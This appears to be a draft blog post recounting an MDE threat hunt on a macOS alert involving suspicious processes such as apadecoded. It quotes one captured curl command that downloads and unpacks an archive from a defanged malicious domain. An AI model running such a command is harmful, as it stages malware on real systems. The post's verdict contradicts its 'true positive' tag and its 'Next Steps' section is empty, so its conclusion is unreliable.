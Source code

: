 ```yaml
---
title: Mac Malware?
date: 2022-05-19 11:39 +0200
categories: [Hunting, MDE]
tags: [mde, hunting, true positive]
---
```

{% include mermaid.liquid %}

Today we investigate some strange discovery actions by processes on a macbook

## The Alert
In the essence this alert was showing multiple different processes doing very similar discovery actions.
In most cases the process [xpcproxy](https://www.unix.com/man-page/osx/8/xpcproxy/) was used to run a sub process which in turn started some bash commands.
For this investigation I put xpcproxy out of scope as it did not seem to be part of a malicious execution chain (my mac knowledge is basic)
This xpcproxy would run an executable for example apadecoded and this in turn would run new processes example:
```bash
/bin/sh /var/folders/zz/zyxvpxvq6csfxvn_n0000000000000/T/FE8B53AE-FE86-4FF8-98E1-D7987304368D
```
apadecoded itself looks already strange enough and is also found on VT, but what is this "FE8B53AE-FE86-4FF8-98E1-D7987304368D"?

For this I first needed to get into the investigation a bit closer and luckily MDE was reporting this cli events in the same incident:
```bash
/usr/bin/curl -s -L -o /var/tmp/helpexecd.tgz hxxp://cdn[.]eniqdix[.]icu/static/s3/exec6625/helpexecd[.]tgz
tar -xzf /var/tmp/helpexecd.tgz -C /var/tmp/helpexecd/
```
And this resultet in a new executable "/private/var/tmp/helpexecd/helpexecd"


## Hunting deeper

<div class="mermaid">
flowchart TD;
    kernel_task[kernel_task];
    launchd[launchd];
    bash1[bash];
    xpcproxy[xpcproxy];
    syncservice[syncservice];
    bash2[bash];
    sh[sh];
    canonistical[canonistical];
    noble[noble];
    odontolite[odontolite];
    intrinsicalness[intrinsicalness];
    TestDate[TestDate];
    SysUpdater[SysUpdater];
    leam[leam];
    recommitment[recommitment];
    TestDateDaemon[TestDateDaemon];
    apadecode[apadecode];
    apadecoded[apadecoded];

    kernel_task --> launchd;
    launchd --> bash1;
    bash1 --> syncservice;
    syncservice --> sh;
    sh --> bash2;
    xpcproxy --> canonistical;
    xpcproxy --> noble;
    xpcproxy --> odontolite;
    xpcproxy --> intrinsicalness;
    xpcproxy --> TestDate;
    xpcproxy --> SysUpdater;
    xpcproxy --> leam;
    xpcproxy --> recommitment;
    xpcproxy --> TestDateDaemon;
    xpcproxy --> apadecode;
    xpcproxy --> apadecoded;
</div>


## Verdict

| Indicator                              | Thoughts                                                                                                            | Verdict |
|----------------------------------------|---------------------------------------------------------------------------------------------------------------------|---------|
| CMD started by User                    | Either compromise of host, or legitimate action by user                                                             | -10%    |

**Verdict: False Positive**

## Next Steps

